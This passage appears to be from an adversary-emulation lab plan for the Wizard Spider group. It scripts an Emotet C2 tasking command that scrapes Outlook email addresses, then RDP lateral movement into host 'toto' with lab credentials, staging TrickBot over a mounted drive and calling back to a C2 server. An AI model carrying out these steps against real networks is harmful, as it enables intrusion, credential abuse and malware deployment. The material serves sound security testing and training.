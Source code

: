 ```bash
# Emotet has been observed leveraging a module that can scrape email addresses from Outlook.[3][4]

./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```
[Source Code](comms.cpp#L99)

:warning: Sign out of RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

<br>

### :microscope: Cited Intelligence
* https://unit42.paloaltonetworks.com/emotet-command-and-control/

* https://www.cisecurity.org/white-papers/ms-isac-security-primer-emotet/

* https://securityintelligence.com/new-banking-trojan-icedid-discovered-by-ibm-x-force-research/

* https://global.ahnlab.com/global/upload/download/asecreport/ASEC%20REPORT_vol.88_ENG.pdf

<br>

## Step 4 - Move Laterally Deploy TrickBot

:microphone: `Voice Track:`

During this step, Wizard Spider uses bill's credentials to RDP into Toto.

Wizard Spider uploads and executes a malicious EXE based on TrickBot. 

Trickbot is uploaded to target using an RDP-mounted network share.

Once executed, Trickbot calls back to the C2 server over HTTP.

```
Compromised user info:

User:	bill@oz.local

System: 10.0.0.8 / toto

File Write (Tribot EXE): %AppData%\uxtheme.exe

C2:	192.168.0.4:447 HTTP - no encryption or obfuscation
```

---

### :biohazard: Procedures

Change your RDP tab name to "RDP into Toto"

RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```
